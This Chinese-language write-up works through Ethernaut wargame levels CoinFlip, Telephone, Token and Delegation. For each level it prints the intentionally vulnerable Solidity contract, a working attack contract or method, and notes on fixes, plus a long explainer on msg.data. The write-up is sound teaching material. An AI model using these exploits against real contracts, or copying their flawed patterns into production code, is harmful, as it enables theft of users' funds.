



### 3. Coin Filp


#### 要求

filp 赢10次
 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```


#### 分析

该代码使用已知数据进行计算，计算的数据输入在链上完全是公开的，可以自行通过计算得到

#### 攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack{

    error FlipFaild();

    CoinFlip private immutable target;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    constructor(address _target){
        target = CoinFlip(_target);
    }

    function flip() external {
        if(!target.flip(_guess())){
            revert FlipFaild();
        }
        
    }

    function _guess() private view returns  (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

}
```

#### 笔记

- 通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.

- 想要获得密码学上的随机数,你可以使用 Chainlink VRF, 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.

- 一些其它的选项包括使用比特币block headers (通过验证 BTC Relay), RANDAO, 或是 Oraclize).


### 4. Telephone


```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

#### 要求

获得合约 owner 权限


#### 攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack{
    Telephone private immutable target;

    constructor (address _target) {
        target = Telephone(_target);
    }
    
    function changeOwner(address _owner) public {
        target.changeOwner(_owner);
    }
}
```

#### 笔记

这个例子比较简单, 混淆 `tx.origin` 和 `msg.sender` 会导致 `phishing-style` 攻击, 比如 [这个](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/)

下面描述了一个可能的攻击.

使用 tx.origin 来决定转移谁的token, 比如:
```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
攻击者通过调用合约的 `transfer` 函数是受害者向恶意合约转移资产, 比如

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
在这个情况下, `tx.origin` 是受害者的地址 ( `msg.sender` 是恶意协议的地址), 这会导致受害者的资产被转移到攻击者的手上.


#### 总结

始终是外部账户（EOA）
`tx.origin` 永远指向最初发起交易的人类用户的钱包地址（如 MetaMask 地址），而不可能是合约地址。

贯穿整个调用链
无论交易经过多少个合约调用，`tx.origin` 始终保持不变，始终指向交易的最初发起者。

```solidity
contract A {
    function callB(address contractB) public {
        B(contractB).doSomething();
    }
}

contract B {
    function doSomething() public {
        // 当用户直接调用时：
        // tx.origin = 用户地址
        // msg.sender = 用户地址
        
        // 当通过合约A调用时：
        // tx.origin = 用户地址（始终不变）
        // msg.sender = 合约A的地址
    }
}
```



**`tx.origin` 合法使用场景**：

虽然不推荐用于授权，但在特定场景下有用：

1. 拒绝合约调用（只允许 EOA）

    ```solidity
    modifier onlyEOA() {
        require(msg.sender == tx.origin, "Contracts not allowed");
        _;
    }
    ```
2. 审计追踪（记录原始发起者）
3. 特殊治理场景（如 DAO 的原始提案人）

**总结**:
- `tx.origin` = 交易的最初人类发起者
- `msg.sender` = 当前直接调用者（可能是合约）
- 永远不要用 `tx.origin` 做权限验证 - 这是智能合约安全的基本准则
  ```
    // ❌ 危险示例：容易受到钓鱼攻击
    function withdraw() public {
        require(tx.origin == owner, "Not owner");
        // ...转账逻辑
    }
    // ✅ 安全做法：使用 msg.sender 做权限检查
    function withdraw() public {
        require(msg.sender == owner, "Not owner");
        // ...转账逻辑
    }
  ```
- 在 99% 的场景中，你都应该使用 `msg.sender` 而非 `tx.origin`


### 5. Token


#### 要求

这一关的目标是攻破下面这个基础 token 合约

你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

这可能有帮助:

- 什么是 odometer?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```
#### 分析

Solidity 0.6 版本没有做 SafeMath 处理，运算会有溢出风险

#### 攻击
```
// SPDX-License-Identifier: mit

pragma solidity ^0.6.0;

contract Hack{
    Token private immutable target;

    constructor (address _target) public {
        target = Token(_target);
        
    }

    function transfer() public {
        target.transfer(msg.sender, 1);
    }
}


```

#### 笔记

Overflow 在 solidity 中非常常见, 你必须小心检查, 比如下面这样:

```solidity
if(a + c > a) {
  a = a + c;
}
```

另一个简单的方法是使用 OpenZeppelin 的 SafeMath 库, 它会自动检查所有数学运算的溢出, 可以像这样使用:
```solidity
a = a.add(c);
```
如果有溢出, 代码会自动恢复.


### 6. Delegation


#### 要求
这一关的目标是申明你对你创建实例的所有权.

**这可能有帮助**

    - 仔细看 solidity 文档关于 delegatecall 的低级函数, 他怎么运行的, 他如何将操作委托给链上库, 以及他对执行的影响.
    - Fallback 方法
    - 方法 ID

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

#### 分析

fallback 会调用 delegate call  Delegate 合约，修改 Owner。这是我们进行攻击的入口

##### 回顾一下 fallback 函数


看看 msg.data:
在 Solidity 中，`msg.data` 是一个**全局变量**，它包含了当前函数调用的完整原始数据。理解 `msg.data` 对于处理低级调用、构建代理合约和实现高级功能至关重要。

---

##### 🔍 `msg.data` 的核心特性

| **属性**        | **说明**                                                                 |
|-----------------|-------------------------------------------------------------------------|
| **类型**        | `bytes calldata`（只读字节数组）                                        |
| **内容**        | 完整的调用数据，包括函数选择器和所有参数                                |
| **长度**        | 4字节（函数选择器）+ 参数数据长度（32字节/参数）                        |
| **不可修改**    | 运行时只读，不能写入                                                   |
| **Gas 消耗**    | 访问 `msg.data` 会消耗 Gas（比内存操作更便宜）                         |

---

##### 🧩 `msg.data` 的结构解析

###### 典型调用数据组成：
```plaintext
0x
a9059cbb  // 函数选择器 (4字节)
000000000000000000000000d8da6bf26964af9d7eed9e03e53415d37aa96045  // 参数1 (32字节)
0000000000000000000000000000000000000000000000016345785d8a0000  // 参数2 (32字节)
```

1. **函数选择器 (Function Selector)**  
   - 前 4 字节
   - 由函数签名的 Keccak256 哈希前 4 字节计算得出  
   ```solidity
   // 示例：transfer(address,uint256) 的选择器
   bytes4(keccak256("transfer(address,uint256)")); // 0xa9059cbb
   ```

2. **参数数据**  
   - 每个参数按 ABI 编码规则填充为 32 字节
   - 动态类型（如 string/bytes）有特殊编码规则

---

##### ⚙️ 使用场景与代码示例

###### 场景 1: 代理合约转发调用
```solidity
contract Proxy {
    address implementation;
    
    fallback() external payable {
        address impl = implementation;
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), impl, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
}
```
- 使用 `calldatasize()` 获取 `msg.data` 长度
- `calldatacopy` 将 `msg.data` 复制到内存

###### 场景 2: 提取函数选择器
```solidity
function getSelector() public pure returns (bytes4 selector) {
    assembly {
        selector := calldataload(0)
    }
    // 或更简单的方式：
    // return bytes4(msg.data[0:4]);
}
```

###### 场景 3: 手动解析参数
```solidity
function parseTransfer() public pure returns (address to, uint amount) {
    require(msg.data.length == 4 + 32*2, "Invalid data length");
    
    assembly {
        to := calldataload(4)        // 跳过前4字节选择器
        amount := calldataload(36)    // 第二个参数位置
    }
}
```
##### 🛡️ 安全注意事项

1. **防止短地址攻击**  
   ```solidity
   function safeTransfer(address to) public {
       require(msg.data.length == 4 + 32, "Invalid calldata length");
       // ...
   }
   ```

2. **动态类型验证**  
   动态类型需要偏移量验证：
   ```solidity
   function setData(string memory data) public {
       uint offset = uint(bytes32(msg.data[4:36]));
       require(offset == 0x20, "Invalid offset");
       // ...
   }
   ```

3. **Gas 优化技巧**  
   ```solidity
   // 高效方式：使用 Yul 汇编直接访问
   assembly {
       let param := calldataload(4)
   }
   
   // 低效方式：转换为内存（消耗更多 Gas）
   bytes memory data = msg.data; // 避免这样做！
   ```

---

##### 🔄 `msg.data` 与其他全局变量关系

| **变量**         | **与 `msg.data` 的关系**                                  |
|------------------|----------------------------------------------------------|
| `msg.sig`        | `msg.sig == bytes4(msg.data[0:4])`                       |
| `msg.value`      | 独立值，不包含在 `msg.data` 中                           |
| `tx.origin`      | 独立值，与调用数据无关                                   |
| `address(this)`  | 当前合约地址，不影响调用数据                             |

---

##### 💡 高级用法

###### 1. 多签验证
```solidity
function execute(
    bytes memory signature, 
    address target, 
    bytes memory data
) public {
    bytes32 hash = keccak256(abi.encodePacked(msg.data));
    verifySignature(hash, signature);
    (bool success, ) = target.call(data);
    require(success);
}
```

###### 2. 调用链分析
```solidity
event CallTrace(bytes data);

function proxyCall(address target) public {
    emit CallTrace(msg.data);
    (bool success, ) = target.call(msg.data);
    require(success);
}
```

###### 3. ABI 编码兼容性检查
```solidity
function checkSelector(bytes4 expected) public view {
    require(
        bytes4(msg.data) == expected, 
        "Incorrect function selector"
    );
}
```


##### 🌐 实际链上案例

1. **Uniswap 路由合约**  
   使用 `msg.data` 将调用转发到多个 Pair 合约

2. **Gnosis Safe 多签钱包**  
   通过 `msg.data` 验证和执行交易

3. **ERC-2771 元交易**  
   用 `msg.data` 验证转发请求的真实性

---

##### 📊 `msg.data` 与其他调用方式的对比

| **调用方式**       | `msg.data` 可用性         | 特点                          |
|--------------------|--------------------------|------------------------------|
| 普通函数调用       | ✅ 完整                  | 标准调用                      |
| `send()`/`transfer()` | ❌ 为空 (`0x`)          | 仅转账，无数据               |
| `call{value:}()`   | ✅ 完整                  | 可附加任意数据               |
| `delegatecall()`   | ✅ 完整                  | 保持调用上下文               |
| `staticcall()`     | ✅ 完整                  | 禁止状态修改                |

---

##### 💎 总结

1. **`msg.data` 是只读字节数组**，包含完整的调用数据
2. **核心组成** = 函数选择器(4字节) + 参数数据(32字节/参数)
3. **主要用途**：
   - 代理合约的调用转发
   - 手动解析低级调用
   - 签名验证和链上分析
4. **安全关键**：
   - 始终验证数据长度
   - 小心处理动态类型
   - 优先使用汇编直接访问

通过深入理解 `msg.data`，您可以构建更灵活、高效的智能合约，特别是需要处理低级调用的复杂系统如代理合约、元交易等。

#### 攻击

直接使用 该合约(Delegation) 调用 pwn 即可。



#### 笔记

使用delegatecall 是很危险的, 而且历史上已经多次被用于进行 attack vector. 使用它, 你对合约相当于在说 "看这里, -其他合约- 或是 -其它库-, 来对我的状态为所欲为吧". 代理对你合约的状态有完全的控制权. delegatecall 函数是一个很有用的功能, 但是也很危险, 所以使用的时候需要非常小心.

#### 总结

